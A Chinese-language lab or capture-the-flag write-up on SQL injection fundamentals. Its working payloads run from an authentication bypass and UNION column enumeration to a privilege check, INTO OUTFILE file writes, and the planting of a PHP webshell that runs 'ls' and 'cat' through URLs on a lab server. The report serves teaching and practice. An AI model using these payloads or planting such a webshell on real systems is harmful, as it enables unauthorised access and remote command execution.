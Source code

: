 # SQL实验报告

## SQL Injection Fundamentals

### 解题思路

```blank
1.使用下列SQL语句进行注入。结尾使用limit 1限制查询结果为1条，绕过权限进入页面。
```

```sql
' or 1=1 limit 1 -- #
```

![1](img/2.png)

```blank
2.随机尝试union注入，发现前端页面返回的是后端的信息，并不进行过滤处理，综合步骤1考虑判断本网站存在SQL注入漏洞。
```

```sql
' union select 1,2,3,4 -- #
```

![2](img/3.png)

```blank
3.通过尝试，发现union拼接列数为5，其中2-5条返回至前端。
```

```sql
' union select 1,2,3,4,5 -- #
```

![3](img/4.png)

```blank
4.查询用户是否有权限，第二列结果为Y，表示用户有权限。
```

```sql
cn' union select 1, SUPER_PRIV, 3, 4, 5 from MYSQL.USER where user="ROOT"-- #
```

![4](img/5.png)

```blank
5.尝试写入文件，通过URL访问该文件。
```

```sql
cn' union select 1,2,'file written successfully!',3,4 into outfile '/var/www/html/dashboard/proof.txt'-- #
```

```url
http://64.227.32.37:30644/dashboard/proof.txt
```

![5](img/6.png)

```blank
6.写入shell.php文件，拿到Webshell。尝试执行ls命令查看目录下的文件。
```

```sql
cn' union select "","",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/dashboard/shell.php'-- #
```

```bash
ls
```

![6](img/7.png)

```blank
7.使用Webshell执行下列URL，获取系统/目录下的所有文件，发现有flag的文件，文件名为flag_cae1dadcd174.txt。
```

```bash
ls /
```

```url
http://64.227.32.37:30644/dashboard/shell.php?0=ls%20/
```

![7](img/8.png)

```blank
8.执行cat读取命令，获取flag。
flag:528d6d9cedc2c7aab146ef226e918396
```

```bash
cat /flag_cae1dadcd174.txt
```

```url
http://64.227.32.37:30644/dashboard/shell.php?0=cat%20/flag_cae1dadcd174.txt
```

### 结果截图

![10](img/10.png)

---
